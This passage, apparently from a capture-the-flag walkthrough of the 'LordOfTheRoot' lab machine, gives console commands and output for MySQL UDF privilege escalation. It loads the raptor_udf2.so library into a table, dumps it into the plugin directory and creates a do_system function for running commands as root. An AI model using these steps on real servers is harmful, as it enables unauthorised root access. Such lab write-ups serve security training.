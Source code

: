 We connect to mysql database. 

```console
smeagol@LordOfTheRoot:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5130
Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql>
```

We switch to the MySQL database.

```console
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql>
```

We create a table to hold the exploit code.

```console
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)
```

We import the exploit inserting its content into the table.

```console
mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));
Query OK, 1 row affected (0.01 sec)
```

We select the binary content and dump it into the plugins directory.

```console
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.01 sec)
```

We create a function to call the exploit.

```console
mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.01 sec)


The following statement can be used to execute system commands as root
```
